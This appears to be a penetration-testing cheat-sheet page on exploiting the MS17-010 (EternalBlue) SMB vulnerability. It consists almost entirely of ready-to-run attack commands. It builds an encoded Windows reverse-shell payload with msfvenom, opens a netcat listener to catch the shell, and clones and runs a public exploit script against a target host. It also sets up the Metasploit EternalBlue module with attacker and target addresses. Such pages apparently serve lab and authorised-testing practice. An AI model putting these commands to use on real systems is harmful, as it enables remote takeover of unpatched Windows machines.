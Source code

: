 ```yaml
---
description: SMB Exploit MS17-010
---
```


# MS17-010

Some tools to exploiting Eternalblue

### Exploiting MS17-010

{% code overflow="wrap" %}
```bash
msfvenom -p windows/shell_reverse_tcp -f exe -o asuka.exe \
-a x86 -e x86/shikata_ga_nai LHOST=192.168.100.1 LPORT=31337

# run nc from attacker
nc -lvp 31337

# exploiting the vulnerability
git clone https://github.com/helviojunior/MS17-010
cd MS17-010
python send_and_execute.py target.lab asuka.exe

# In case the dependency is missing
wget https://bootstrap.pypa.io/pip/2.7/get-pip.py
python2 get-pip.py
pip2 install impacket==0.9.22
```
{% endcode %}

Or using Metasploit

{% code overflow="wrap" %}
```bash
use exploit/windows/smb/ms17_010_eternalblue
show options
set LHOST 10.4.33.242
set RHOSTS 10.10.82.157
run
```
{% endcode %}
